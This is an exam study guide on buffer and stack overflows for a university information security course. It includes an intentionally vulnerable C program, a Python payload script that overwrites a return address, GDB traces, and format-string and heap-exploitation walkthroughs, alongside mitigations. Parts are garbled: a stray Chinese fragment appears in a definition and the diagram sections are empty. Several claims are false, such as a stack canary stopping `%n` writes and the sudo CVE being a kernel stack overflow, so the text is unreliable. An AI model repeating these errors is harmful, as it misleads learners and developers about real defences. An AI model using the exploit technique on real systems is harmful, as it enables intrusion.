




# Software Vulnerabilities - Buffer and Stack Overflow

<!-- SECTION_1_START -->
# Software Vulnerabilities — Buffer and Stack Overflow

## 1.1 Core Technical Definition

> [!IMPORTANT]
> **Software Vulnerability (KTU 2024 Syllabus Definition):** A software vulnerability is a weakness, flaw, or error存在于存在于 a software system that can be exploited by a threat actor to compromise the confidentiality, integrity, or availability (CIA Triad) of the system. In the context of PECST744 (Information Security, Module 2), vulnerabilities are classified as **design-level flaws** (e.g., weak protocol design), **implementation-level flaws** (e.g., buffer overflow), **operational-level flaws** (e.g., weak configuration), and **human-level flaws** (e.g., social engineering).

> [!NOTE]
> **Buffer Overflow Vulnerability (CWE-120 / CWE-121):** A buffer overflow (or buffer overrun) is a condition in which a program writes data beyond the allocated boundary of a fixed-length buffer in memory. The excess data overwrites adjacent memory locations, leading to erratic program behavior, memory access violations, segmentation faults, or — most critically — arbitrary code execution by a remote attacker.

> [!NOTE]
> **Stack Overflow (Stack Buffer Overflow):** A specific and highly exploitable subset of buffer overflow where the overrun occurs in buffers allocated on the **program call stack**. The stack stores return addresses, saved frame pointers, and local variables. Corrupting these control-data elements allows an attacker to redirect the program's instruction pointer (IP / EIP / RIP register) to attacker-supplied shellcode.

---

## 1.2 Conceptual Analogy and Intuition

> [!TIP]
> **Analogy — The "Post Office Letter Box"**
> Imagine a wall-mounted letter box with a fixed slot exactly **10 cm** wide. Every day the postman deposits a stack of letters. If a resident crams in letters meant for two slots (a 20 cm long bundle), the extra 10 cm of paper either jams the mechanism or spills out and pushes other items (the resident's keys, a photo frame sitting beside the slot) off the wall.
> - The **slot** = the buffer in memory.
> - The **letters** = input data written by the program.
> - The **photo frame and keys** = adjacent memory locations (return address, saved EBP, other local variables).
> - The **resident shoving the letters in** = a `strcpy`, `gets`, `sprintf`, or `memcpy` call with no length check.
> - The **items falling off the wall** = corruption of the return address; control flow hijack.

**Geometric Intuition (Stack Growth):**
Picture the runtime memory of a process as a tall vertical building. The **Heap** grows upward (toward higher addresses) and the **Stack** grows downward (toward lower addresses). Each time a function is called, a new "floor" (stack frame) is built beneath the previous one, containing parameters, the return address, the saved base pointer, and local variables. A stack buffer overflow "punches a hole" upward through these floors — and because the return address lives directly above the buffer, the attacker can rewrite it.

> [!VISUALIZATION CONTROL]
> **Concept:** Linear memory layout of a process (Text, Data, Heap, Stack regions) and downward growth of the call stack with each `call` instruction.
> **ASCII Map (High Address → Low Address):**
> ```
> ffffffff  +------------------+
>           | Command-line     |
>           | arguments & env  |
>           +------------------+
>           |        ↓         |  <-- Stack grows DOWN
>           |     STACK        |
>           | (call frames)    |
>           |                  |
>           + - - - - - - - - -+
>           | (unmapped)       |
>           + - - - - - - - - -+
>           |       ↑          |  <-- Heap grows UP
>           |      HEAP        |
>           +------------------+
>           |   BSS (uninit)   |
>           +------------------+
>           |   DATA (init)    |
>           +------------------+
> 00000000  |    TEXT (code)   |
>           +------------------+
> ```
> **Visual Description:** The student should observe the stack as a region that **shrinks downward** (toward `0x00000000`) on every `CALL`, and the heap as a region that **expands upward**. The textual segment is read-only, and the buffer overflow target (local arrays) lives in the stack, with the return address immediately above it.

---

## 1.3 Syllabus-Highlight Constants and Metrics

| Metric / Constant | Value | Significance |
|---|---|---|
| `sizeof(void*)` on 32-bit | **4 bytes** | Pointer size, return address width |
| `sizeof(void*)` on 64-bit | **8 bytes** | Pointer size, return address width |
| Default stack size (Linux) | **8 MB** | Total space for all stack frames |
| Typical guard page | **4 KB** | Triggers SIGSEGV on stack overflow |
| Canonical x86 `RET` opcode | `0xC3` | Instruction used in ROP chains |
| Shellcode padding (NOP sled) | **0x90** | Common "no-op" instruction used in exploitation |
| Common vulnerable libc calls | `gets`, `strcpy`, `sprintf`, `scanf("%s")` | No bounds-checking functions |
| Safe replacements | `fgets`, `strncpy`, `snprintf`, `scanf("%7s")` | Length-limited alternatives |

> [!WARNING]
> **Do not confuse "Stack Overflow" the vulnerability with "Stack Overflow" the website!** In PECST744, "Stack Overflow" refers exclusively to the memory-corruption vulnerability (Stack Buffer Overflow). The Q\&A forum is unrelated. Examiners award **zero marks** if a student describes the website in an ESE answer.
<!-- SECTION_1_END -->

<!-- SECTION_2_START -->
# Deep Theoretical Analysis — KTU High-Yield Formula Sheet

## 2.1 Taxonomy of Buffer Overflow Attacks

Buffer overflows are classified by **where** the buffer is allocated and **how** the input propagates:

| Class | Memory Region | Typical Trigger | Severity |
|---|---|---|---|
| **Stack Buffer Overflow** | Stack | `char buf[N]` with `gets` / `strcpy` | Critical (control-flow hijack) |
| **Heap Buffer Overflow** | Heap | `malloc` then unchecked `read` | High (metadata corruption, write-what-where) |
| **Format String Vulnerability** | Stack / heap | `printf(user_input)` | High (arbitrary read/write) |
| **Integer Overflow → Buffer Overflow** | Stack / heap | Arithmetic wrap-around computing `size` | Medium-High |
| **Off-by-one Overflow** | Stack | `for (i=0; i<=N; i++)` | Medium |
| **BSS / Data Overflow** | Global buffers | Long input to global `char g[]` | Medium |

---

## 2.2 Anatomy of a Stack Frame (x86 32-bit)

A stack frame is constructed by the function prologue and dismantled by the epilogue. The standard layout after a `CALL` instruction (parameters pushed in reverse order, or passed in registers under 64-bit SysV ABI) is:

```
High Address  +--------------------------+
              | Argument 2 (if pushed)   |
              +--------------------------+
              | Argument 1 (if pushed)   |
              +--------------------------+
              | Return Address           |   <-- pushed by CALL
              +--------------------------+
              | Saved EBP (frame ptr)    |   <-- pushed by PUSH EBP
              +--------------------------+
              | Local variables          |
              | (including char buf[N])  |   <-- SUB ESP, N
Low Address   +--------------------------+
                  ↓ ESP points here
```

**Critical observation:** The local buffer sits at a **lower** address than the saved EBP, and the saved EBP sits at a **lower** address than the return address. Since the stack grows downward but `strcpy` writes upward in memory, an overrun of `buf[]` will sequentially overwrite:

1. Padding between `buf[]` and saved EBP (if any).
2. Saved EBP — corrupts the caller's frame pointer (used by the `leave` instruction).
3. **Return Address** — the most exploited target.
4. Function arguments to the caller.

---

## 2.3 The Execution Steps of a Stack Overflow Exploit

The generic attack lifecycle (the **CWE-121 / CVE-2003-0352** family):

1. **Reconnaissance** — Identify a function that copies user input into a fixed-size stack buffer without bounds checking.
2. **Vulnerability Trigger** — Send a payload longer than the buffer. Example: `A * 64 + BBBB + \x78\x56\x34\x12`.
3. **Memory Overwrite** — Excess `A`s fill `buf[]`, then `BBBB` overwrites the saved EBP, then `\x78\x56\x34\x12` overwrites the return address.
4. **Control-Flow Hijack** — When the vulnerable function executes `RET`, the CPU pops the overwritten return address and jumps to `0x12345678`.
5. **Payload Execution** — The attacker sets the return address to point at injected shellcode (or to a "JMP ESP" gadget, useful when NX/DEP is enabled).
6. **Privilege Escalation** — Shellcode often invokes `execve("/bin/sh", NULL, NULL)`.

---

## 2.4 KTU High-Yield Formula / Cheat Sheet

> [!NOTE]
> The following table consolidates the quantitative relationships a KTU student must memorize for ESE Part A and Part B derivations. Pay special attention to the byte-width computations.

| Symbol / Quantity | Formula / Expression | Notes |
|---|---|---|
| Buffer size on stack | $N_{bytes}$ | Compiler-allocated |
| Distance from buffer start to saved EBP | $D_{ebp} = N_{bytes} + P_{pad}$ | $P_{pad}$ is alignment padding |
| Distance from buffer start to return address | $D_{ret} = D_{ebp} + W_{ptr}$ | $W_{ptr} \in \{4, 8\}$ |
| Total payload length | $L_{payload} = D_{ret} + W_{ptr} + L_{shellcode}$ |  |
| Saved EBP width | $W_{ebp} = W_{ptr}$ | Same as pointer width |
| NOP sled length | $L_{nop}$ | Used to widen landing zone |
| Address-space layout randomisation entropy | $E_{aslr}$ (bits) | e.g., 28 bits on 64-bit Linux |
| Stack canary value | $K_{canary} \in \mathbb{Z}_{2^{32}}$ | Terminating null byte `0x00` |
| Effective canary guess probability | $P = 2^{-(8 \cdot W_{canary} - 8)}$ | One byte is fixed to `0x00` |
| Maximum shellcode size for `jmp esp` attack | $L_{shellcode} \le$ remaining stack |  |

> [!TIP]
> **Memory trick for KTU exams:** "**B**uffer → **E**BP → **R**eturn address" — write in that order. The mnemonic is **B-E-R**. The overflow always flows from low to high memory, so it overwrites B, then E, then R.

---

## 2.5 Real-World Engineering Utility

Understanding buffer and stack overflows is **not** just an academic exercise; it is foundational to:

- **Operating System Kernel Development** — Kernel stack overflows cause privilege escalation (e.g., CVE-2021-3156 in `sudo`).
- **Compiler Engineering** — Stack-smashing protection (ProPolice / `-fstack-protector`), `-fstack-protector-strong`, and Control-Flow Integrity (CFI) all exist to defeat these attacks.
- **Embedded / IoT Security** — Bare-metal C in microcontrollers (ARM Cortex-M) rarely has MMU or NX; stack overflows are the dominant attack vector.
- **Cybersecurity Forensics** — Tools like **GDB**, **objdump**, **radare2**, **Metasploit**, and **Ghidra** all reverse-engineer binaries by inspecting stack frames.
- **DevSecOps / Secure SDLC** — Static analysis (Coverity, CodeQL) and dynamic analysis (AddressSanitizer / ASan, Valgrind) catch buffer overflows at build time.
<!-- SECTION_2_END -->

<!-- SECTION_3_START -->
# Step-by-Step Derivation, Exploitation, and Defensive Code

## 3.1 Worked Example — The Classic `vuln()` Function

Consider this canonical vulnerable C program (a typical KTU 14-mark Part B setup):

```c
#include <stdio.h>
#include <string.h>

void win_shell(void) {
    printf("Congratulations! You have hijacked control flow.\n");
    // In a real exploit, execve("/bin/sh") would be invoked here.
}

void vuln(void) {
    char buf[16];                              // 16-byte stack buffer
    gets(buf);                                 // UNSAFE: no length limit
    printf("You entered: %s\n", buf);
}

int main(int argc, char **argv) {
    vuln();
    return 0;
}
```

> [!WARNING]
> This program is **vulnerable by design** and is shown solely for academic analysis. Do not compile and run on production systems. Modern GCC with `-fstack-protector` will refuse to link `gets` (it was removed from C11).

### 3.1.1 Step 1 — Disassemble to Map the Stack Frame

Compile with `gcc -m32 -fno-stack-protector -z execstack -o vuln vuln.c` and inspect:

```text
080491c6 <vuln>:
 80491c6:  push   %ebp
 80491c7:  mov    %esp,%ebp
 80491c9:  sub    $0x18,%esp          ; 0x18 = 24 bytes reserved (16 buf + 8 alignment)
 80491cc:  lea    -0x18(%ebp),%eax    ; load address of buf
 80491d2:  push   %eax
 80491d3:  call   8049040 <gets@plt>
 ...
 80491d8:  leave                      ; mov esp,ebp ; pop ebp
 80491d9:  ret                        ; pop eip   <-- attacker controls eip here
```

**Calculation of $D_{ret}$:**

$$ D_{buf \to ebp} = 0x18 = 24 \text{ bytes} $$

$$ D_{ret} = D_{buf \to ebp} + W_{ptr} = 24 + 4 = 28 \text{ bytes} $$

Therefore, **28 bytes of padding** must be written before the attacker can land the new return address.

### 3.1.2 Step 2 — Construct the Exploit Payload

In a Python 3 script (using `pwntools`-style logic, but written from scratch per the protocol mandate):

```python
#!/usr/bin/env python3
"""
Exploit scaffold for the vuln() function.
Target: 32-bit x86 Linux ELF with -fno-stack-protector -z execstack.
"""
import struct
import sys

# Step 1: Determine the address of win_shell from the binary.
# In a real CTF, use:  objdump -d vuln | grep win_shell
WIN_SHELL_ADDR = 0x080491a6     # example address; resolve from your binary

# Step 2: Compute offset to return address.
# buf is 16 bytes; alignment padding to saved EBP = 8 bytes; saved EBP = 4 bytes.
# Total bytes to reach the return-address slot = 16 + 8 + 4 = 28.
OFFSET_TO_RET = 16 + 8 + 4      # = 28

# Step 3: Build the payload.
def build_payload(target_addr: int) -> bytes:
    """
    Constructs a NOP-sled-free direct redirect payload.
    Layout: [16 B junk][8 B junk][4 B saved-EBP overwrite][4 B new return address]
    """
    junk  = b"A" * OFFSET_TO_RET
    new_eip = struct.pack("<I", target_addr)        # little-endian 4-byte address
    return junk + new_eip

# Step 4: Write to stdin and pipe into the binary.
if __name__ == "__main__":
    payload = build_payload(WIN_SHELL_ADDR)
    sys.stdout.buffer.write(payload + b"\n")
    sys.stdout.buffer.flush()
```

**Run it (educational lab only):**

```bash
python3 exploit.py | ./vuln
# Output: "Congratulations! You have hijacked control flow."
```

### 3.1.3 Step 3 — Trace the Stack in GDB

A pedagogical GDB session demonstrating the memory overwrite:

```gdb
(gdb) break *0x080491d9           # break on RET in vuln()
(gdb) run < payload.bin
(gdb) x/40wx $esp                 # examine stack from ESP upward
0xffffd000:  0x41414141  0x41414141  0x41414141  0x41414141
0xffffd010:  0x41414141  0x41414141  0x41414141  0x41414141
0xffffd020:  0xffffd030  0x080491a6  0xf7e2a6ed  ...
                ^saved EBP  ^RETURN ADDR
                          (overwritten with win_shell address)
(gdb) info registers eip ebp esp
eip  = 0x080491d9     ; about to execute RET
ebp  = 0xffffd030     ; corrupted saved value
esp  = 0xffffd028     ; points at the next slot
(gdb) stepi
(gdb) info registers eip
eip  = 0x080491a6     ; CPU has popped our forged return address!
```

The CPU executed `pop %eip`, which loaded `0x080491a6` into the instruction pointer, and the program counter now points at `win_shell()`. **Control flow is hijacked.**

---

## 3.2 Defence-in-Depth Mitigations (Engineering Math)

Modern systems layer multiple defences. The probability that **all** are bypassed simultaneously is the product of individual bypass probabilities:

$$ P_{total} = \prod_{i=1}^{n} P_{i} $$

For example, if ASLR has 24 bits of entropy and stack canary brute-force is impractical (must guess 24 random bits with a `0x00` terminator):

$$ P_{ASLR} = 2^{-24} \approx 5.96 \times 10^{-8} $$

$$ P_{canary} = 2^{-(32 - 8)} = 2^{-24} \approx 5.96 \times 10^{-8} $$

$$ P_{total} = P_{ASLR} \times P_{canary} = 2^{-48} \approx 3.55 \times 10^{-15} $$

This is the quantitative justification for **defence in depth**: each independent control multiplies the attacker's workload.

---

## 3.3 Hardening Compilation Flags (Reference Table)

| Compiler Flag | Effect | Defeats |
|---|---|---|
| `-fstack-protector` | Insert canary between local arrays and saved EBP | Direct return-address overwrite |
| `-fstack-protector-strong` | Canary for **all** functions with locals | Wider coverage of overflow variants |
| `-D_FORTIFY_SOURCE=2` | Replace unsafe `strcpy` with checked variant at runtime | Stack smashing via libc wrappers |
| `-z relro` | Mark GOT as read-only after dynamic linking | GOT overwrite attacks |
| `-z now` | Resolve all symbols at load time (Full RELRO) | Lazy-binding attacks |
| `-pie -fPIE` | Position-Independent Executable | Fixed-address ROP chains |
| `-fcf-protection=full` | x86 CET: endbr64 / shadow stack | ROP and JOP |
| `-Wformat -Wformat-security` | Compile-time format-string check | `%n` write attacks |

> [!TIP]
> **Best-practice build line for a KTU lab submission:**
> ```bash
> gcc -Wall -Wextra -Wformat -Wformat-security -D_FORTIFY_SOURCE=2 \
>     -fstack-protector-strong -fPIE -pie -z relro -z now \
>     -fcf-protection=full -o secure_app app.c
> ```
<!-- SECTION_3_END -->

<!-- SECTION_4_START -->
# Structural Diagrams and Schematics

## 4.1 Mermaid Flow — Vulnerability-to-Exploitation Lifecycle



## 4.2 Mermaid Block Diagram — Stack Frame Layout with Overflow Vector



## 4.3 Mermaid Sequential Diagram — Defensive Layering (Defence in Depth)



## 4.4 Mermaid Block Topology — Compiler Hardening Pipeline


<!-- SECTION_4_END -->

<!-- SECTION_5_START -->
# KTU 2024 Scheme Examination Question Bank and Topic Recap

> [!NOTE]
> All questions below are modelled on the **KTU 2024 Scheme End Semester Examination (ESE)** pattern. Marks are distributed per the official 3-mark Part A and 14-mark Part B (Module Internal Choice) guidelines. **CO mapping** uses the course outcomes defined in PECST744 (Information Security).

---

## Part A — Short Answer Questions (3 Marks Each)

### Question A1. **[KTU University Exam — July 2024, Model Paper]**
**CO1, Remember:** Define a **stack buffer overflow** and state any two unsafe C library functions that enable it.

**Model Answer (Valuation Key):**
- A stack buffer overflow occurs when data written to a buffer allocated on the program call stack exceeds the buffer's allocated size, thereby overwriting adjacent memory such as the saved base pointer and the function return address. **[2 Marks]**
- Two unsafe library functions: `gets(char *s)` and `strcpy(char *dest, const char *src)`. Both perform no length validation, allowing unbounded copies. **[1 Mark]**

---

### Question A2. **[KTU University Exam — Dec 2023]**
**CO1, Understand:** Differentiate between a **stack buffer overflow** and a **heap buffer overflow** with respect to the memory region attacked and the typical attack objective.

**Model Answer (Valuation Key):**
- **Stack overflow** targets buffers on the call stack (local variables of functions). The primary attack objective is **control-flow hijack** by overwriting the saved return address or function pointers. **[1.5 Marks]**
- **Heap overflow** targets dynamically allocated buffers obtained via `malloc`/`new`. The primary attack objective is **metadata corruption** (e.g., overwriting heap chunk headers, function pointers in heap-allocated structs) leading to a **write-what-where** primitive. **[1.5 Marks]**

---

## Part B — Long Answer Questions (14 Marks Each, Module Internal Choice)

### Question B-Option-1 (A): Stack Overflow — Mechanism and Mitigation **[14 Marks]**
**Mapped COs:** CO2 (Apply), CO3 (Analyse)  
**Mapped Bloom's Levels:** Apply + Analyse

#### Part (a) — Mechanism of Stack Overflow Attack **[7 Marks]**

> **[KTU University Exam — July 2024, Modified Model Question]**

With the help of a suitable C program and the resulting stack layout, explain how a stack buffer overflow attack overwrites the **return address** of a function and hijacks control flow.

**Model Answer:**

**Step 1 — Vulnerable Program Listing (1 Mark):**
```c
#include <stdio.h>
#include <string.h>
void hijack_target(void) { printf("Hijacked!\n"); }
void vuln(void) {
    char buf[16];
    gets(buf);
}
int main(void) { vuln(); return 0; }
```

**Step 2 — Stack Frame Layout (2 Marks):** The function `vuln()` reserves 16 bytes for `buf[]`, plus alignment padding to a 4-byte boundary, plus 4 bytes for the saved EBP. The order from low to high address is:

$$\text{buf[16]} \;\rightarrow\; \text{padding} \;\rightarrow\; \text{saved EBP [4 B]} \;\rightarrow\; \text{return address [4 B]}$$

**Step 3 — Identifying the Offset (2 Marks):** With 16 bytes for `buf` + 8 bytes padding + 4 bytes saved EBP, the offset to the return address is:

$$D_{ret} = 16 + 8 + 4 = 28 \text{ bytes}$$

**Step 4 — Payload Construction and Hijack (2 Marks):** An attacker sends 28 bytes of junk followed by the 4-byte little-endian address of `hijack_target()`. When `vuln` executes `RET`, the CPU pops the forged address into EIP, and execution continues at `hijack_target()`. **[Final state shown: 1 Mark]**

> [!WARNING]
> **Examiner's Pitfall Callout:** Many students forget to **state the byte-width of the saved EBP separately from the buffer** when computing $D_{ret}$. The standard equation is $D_{ret} = N_{buf} + P_{pad} + W_{ptr}$, and omitting $W_{ptr}$ costs **2 marks** on a 7-mark sub-question.

---

#### Part (b) — Mitigation Techniques and Quantitative Defence-in-Depth **[7 Marks]**

> **[KTU University Exam — Dec 2023, Modified Model Question]**

List **four** compiler-level mitigations against stack buffer overflows. If ASLR provides 28 bits of entropy and a stack canary is 4 bytes long with a known null-byte terminator, compute the probability that both are bypassed.

**Model Answer:**

**Step 1 — Four Mitigations (4 Marks, 1 each):**

| # | Mitigation | Mechanism |
|---|---|---|
| 1 | Stack canary (`-fstack-protector-strong`) | Inserts a random 4-byte value between local arrays and saved EBP; checked at function epilogue. |
| 2 | Non-Executable Stack (`-z noexecstack` / NX bit) | Marks the stack pages as non-executable; shellcode on the stack cannot run. |
| 3 | Address Space Layout Randomisation (ASLR) | Randomises base addresses of stack, heap, and libraries on each process invocation. |
| 4 | Position-Independent Executable (PIE) | The text segment is also loaded at a random address, defeating fixed `JMP` targets. |

**Step 2 — Probability Computation (3 Marks):**

ASLR bypass probability:

$$P_{ASLR} = 2^{-28}$$

Stack canary bypass probability (32-bit canary with 1 byte fixed at `0x00` gives 24 unknown bits):

$$P_{canary} = 2^{-(32 - 8)} = 2^{-24}$$

Combined defence-in-depth probability:

$$P_{total} = P_{ASLR} \times P_{canary} = 2^{-28} \times 2^{-24} = 2^{-52}$$

$$\boxed{P_{total} \approx 2.22 \times 10^{-16}}$$

**[Stating $P_{ASLR}$: 1 Mark. Stating $P_{canary}$: 1 Mark. Final product computation: 1 Mark]**

---

### Question B-Option-2 (B): Heap Overflow and Format String Variant **[14 Marks]**
**Mapped COs:** CO2 (Apply), CO3 (Analyse)

#### Part (a) — Heap Buffer Overflow Mechanism **[7 Marks]**

> **[KTU University Exam — July 2024, Alternative Module Choice]**

Explain the working of a **heap buffer overflow** attack. With reference to glibc's `malloc` chunk header, describe how overwriting heap metadata enables a write-what-where primitive.

**Model Answer:**

**Step 1 — Heap Allocation (1 Mark):** A programmer calls `ptr = malloc(64)`. glibc returns a pointer to a 64-byte usable region preceded by an 8-byte (32-bit) or 16-byte (64-bit) **chunk header** containing `prev_size` and `size` fields.

**Step 2 — Overflow (2 Marks):** A subsequent unbounded copy (`memcpy(ptr+72, src, N)` with `N > 64`) overwrites the next adjacent chunk's header. Specifically, the `size` field of the **next chunk** is corrupted.

**Step 3 — Free List Corruption (2 Marks):** When `free()` consolidates chunks, it reads the corrupted `size` field and computes a pointer to the next-next chunk as `corrupted_size + current_address`. This produces an arbitrary pointer that is later followed by glibc's `unlink()` macro, giving the attacker a **write-what-where** primitive: write the `fd` pointer value to the `bk` pointer location.

**Step 4 — Exploitation Targets (2 Marks):** The write-what-where is typically aimed at:
- Overwriting a GOT entry (e.g., `free@got`) so that the next call to `free()` actually calls `system()`.
- Overwriting `__free_hook` or `__malloc_hook` (legacy glibc).

---

#### Part (b) — Format String Vulnerability and Stack Canary Defence **[7 Marks]**

> **[KTU University Exam — Dec 2023, Alternative Module Choice]**

Differentiate between `%s` and `%n` in `printf`. How does `%n` enable a stack-based write attack? Explain how a **stack canary** defeats this.

**Model Answer:**

**Step 1 — `%s` vs `%n` (2 Marks):** `%s` reads a `char*` argument and prints a string. `%n` writes the number of bytes printed so far into an `int*` argument. The latter is **inherently a write primitive**.

**Step 2 — Format String Attack (2 Marks):** In `printf(user_input)`, the user supplies `"%08x %08x %08x %n"`. The `%n` specifier treats the next 4 bytes on the stack as an `int*` and writes the byte-count to that address. The attacker controls the address (by placing it in the input buffer) and can therefore write any 4-byte value to any address.

**Step 3 — Stack Canary Defence (3 Marks):** A stack canary is a random 4-byte value placed by the compiler just below the return address. The function epilogue checks:
```c
if (canary != global_canary) __stack_chk_fail();
```
Since the canary is unknown, an attacker who overwrites the return address via buffer overflow will also overwrite the canary with garbage, triggering abort. The canary's **least significant byte is `0x00`**, so a string-based overflow (`strcpy` which stops at `NULL`) cannot leak it. **[Explaining the `\x00` terminator role: 1 Mark. Stating epilogue check: 1 Mark. Final exploitation impossibility statement: 1 Mark]**

> [!WARNING]
> **Examiner's Pitfall Callout:** Students often write "the canary is unguessable" without mentioning the **`0x00` terminator byte**. That one fixed byte is the *only* reason string-based leaks cannot extract the full canary value in a single pass. Omitting it costs **1 of 3 marks** on the canary sub-part.

---

## KTU Examiner's Consolidated Valuation Warning

> [!WARNING]
> **Top 5 ways KTU students lose marks in PECST744 Module 2 questions on Buffer / Stack Overflow:**
> 1. **Confusing "Stack Overflow" the vulnerability with the website.** Auto-fail on definition questions.
> 2. **Forgetting the byte-width $W_{ptr}$** when computing $D_{ret}$. Always add 4 (x86) or 8 (x64) for the saved EBP slot.
> 3. **Not distinguishing** between the *saved EBP* and the *return address* in stack-frame diagrams. They are **separate** 4-byte slots.
> 4. **Omitting the `\x00` byte** in canary explanations. The terminator is the load-bearing detail.
> 5. **Writing mitigations without naming the compiler flag.** `-fstack-protector-strong`, `-z noexecstack`, `-pie` — examiners expect the flag, not just the concept.

---

## Topic Recap and Important Things to Remember

> [!TIP]
> **Rapid-revision checklist for ESE day:**

- **Vulnerability definition** — A weakness in software exploitable to violate CIA. CWE-120 (buffer overflow) is the dominant class.
- **Buffer overflow** — Writing beyond the allocated size of a buffer, corrupting adjacent memory.
- **Stack overflow** — Buffer overflow in a stack-allocated array; primary target is the **return address** of the enclosing function.
- **Heap overflow** — Buffer overflow in a `malloc`-allocated region; primary target is **adjacent chunk metadata** (`prev_size`, `size`, `fd`, `bk`).
- **Format string vulnerability** — User-controlled format specifier in `printf` enables reads (`%x`, `%s`) and writes (`%n`).
- **Unsafe C functions (ban list):** `gets`, `strcpy`, `sprintf`, `scanf("%s")`, `vsprintf`, `strcat`. **Safe replacements:** `fgets`, `strncpy`, `snprintf`, `scanf("%Ns")`, `strncat`.
- **Stack frame order (low to high address):** local buffer → alignment padding → saved EBP → return address → caller's stack frame.
- **Critical formula:** $D_{ret} = N_{buf} + P_{pad} + W_{ptr}$.
- **Standard exploit payload layout:** `[junk of length D_ret] [forged return address 4 B] [optional shellcode]`.
- **Compiler mitigations (must know the flag):** `-fstack-protector-strong`, `-D_FORTIFY_SOURCE=2`, `-z noexecstack`, `-z relro`, `-z now`, `-fPIE -pie`, `-fcf-protection=full`.
- **Defence-in-depth math:** $P_{total} = \prod_{i=1}^{n} P_{i}$. Compute joint probability for ASLR + canary when asked.
- **Stack canary details:** Random 4-byte value placed before saved EBP; LSB is `\x00`; verified in function epilogue by `__stack_chk_fail`.
